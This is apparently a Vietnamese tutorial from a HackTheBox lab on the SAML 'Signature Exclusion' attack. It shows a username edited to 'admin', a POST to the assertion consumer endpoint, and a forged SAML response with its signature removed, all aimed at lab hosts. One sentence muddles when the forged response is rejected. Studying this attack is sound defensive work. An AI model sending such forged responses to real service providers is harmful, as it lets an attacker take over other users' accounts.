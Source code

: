 # 2. Tấn công "Signature Exclusion" trong SAML

**Tấn công "Signature Exclusion"** là một dạng tấn công trong đó kẻ tấn công sẽ thay đổi phản hồi SAML bằng cách **loại bỏ chữ ký số**. Nếu một nhà cung cấp dịch vụ (SP) được cấu hình sai để chỉ kiểm tra chữ ký khi có và mặc định chấp nhận phản hồi SAML nếu không có chữ ký, thì việc loại bỏ chữ ký sẽ cho phép kẻ tấn công thay đổi phản hồi SAML để giả mạo người dùng khác.

#### Ví dụ về việc kiểm tra chữ ký trong SAML:

Khi chúng ta đăng nhập thành công vào một ứng dụng, hệ thống sẽ sử dụng thông tin đăng nhập được xác thực thông qua một phản hồi SAML có chữ ký. Ví dụ, sau khi xác thực, hệ thống sẽ trả về một phản hồi SAML chứa thông tin người dùng:

```xml
<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">htb-stdnt</saml:AttributeValue>
</saml:Attribute>
```

Để giả mạo người dùng, ta chỉ cần thay đổi giá trị tên người dùng từ "htb-stdnt" thành "admin", ví dụ:

```xml
<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">admin</saml:AttributeValue>
</saml:Attribute>
```

Sau đó, ta mã hóa lại phản hồi SAML bằng Base64 và URL-encode, rồi thay thế vào phản hồi SAML hợp lệ trong yêu cầu HTTP:

```http
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 8811
Content-Type: application/x-www-form-urlencoded
SAMLResponse=PHNhb...[encoded data]...%3d&RelayState=%2Facs.php
```

Tuy nhiên, việc thay đổi này sẽ làm **chữ ký bị sai**, và nếu ứng dụng không kiểm tra chữ ký, sẽ từ chối phản hồi SAML này.

#### Tấn công Signature Exclusion:

Nếu ứng dụng bị cấu hình sai và không kiểm tra chữ ký của phản hồi SAML nếu không có phần tử chữ ký XML (ds:Signature), ta có thể thực hiện tấn công Signature Exclusion.

1. **Lấy phản hồi SAML gốc**: Lúc này, ta có thể truy cập vào phản hồi SAML và thực hiện thay đổi tên người dùng từ "htb-stdnt" thành "admin".

2. **Loại bỏ chữ ký**: Ta cần **xóa phần tử chữ ký** trong phản hồi SAML, ví dụ: phần tử `<ds:Signature>` trong XML.

Sau khi xóa chữ ký và thay đổi dữ liệu như trên, phản hồi SAML sẽ trông như thế này:

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" 
                xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" 
                ID="d821fe97fd0710b1df434c5fff579972d67d1cd358" 
                Version="2.0" 
                IssueInstant="2024-03-29T17:44:58Z" 
                Destination="http://academy.htb/acs.php">
    <saml:Issuer>http://sso.htb/simplesaml/saml2/idp/metadata.php</saml:Issuer>
    <saml:Assertion ID="1cdba427a3574890ffd9124728527fe5823c2976ac" Version="2.0">
        <saml:Attribute Name="name">
            <saml:AttributeValue xsi:type="xs:string">admin</saml:AttributeValue>
        </saml:Attribute>
    </saml:Assertion>
</samlp:Response>
```
